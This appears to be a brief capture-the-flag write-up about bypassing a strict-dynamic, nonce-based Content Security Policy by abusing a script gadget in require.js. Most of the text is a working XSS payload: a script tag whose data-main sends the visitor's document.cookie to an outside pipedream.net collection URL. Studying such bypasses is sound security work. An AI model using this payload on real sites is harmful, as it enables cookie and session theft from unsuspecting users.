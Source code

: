 The page has strict-dynamic and a nonce. 
It loads multiple js libraries which have gadgets we can use to perform XSS.

The following gadget from require.js works:
```html
<script data-main="data:1, window.location.href='https://enh7hgfvq4ko6.x.pipedream.net?' + document.cookie" src='require.js'></script>
```